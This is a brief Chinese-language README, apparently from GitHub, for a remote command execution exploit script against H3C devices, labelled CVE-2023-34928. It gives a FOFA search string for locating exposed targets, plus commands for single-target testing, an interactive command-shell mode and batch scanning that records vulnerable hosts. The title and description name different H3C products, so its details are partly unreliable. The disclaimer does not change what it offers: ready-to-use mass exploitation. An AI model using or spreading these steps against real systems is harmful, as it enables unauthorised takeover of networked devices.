


# H3C Magic B1STV100R012 RCE

H3C Intelligent Management Center 存在命令执行漏洞。攻击者可利用漏洞通过构造特殊的请求造成远程命令执行。

## FOFA

"/imc/login.jsf"

## 工具利用

python3 CVE-2023-34928.py -u http://127.0.0.1:1111 单个url测试

python3 CVE-2023-34928.py -c http://127.0.0.1:1111 cmdshell模式

python3 CVE-2023-34928.py -f url.txt 批量检测 扫描会自动保存存在漏洞的url到vuln.txt

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
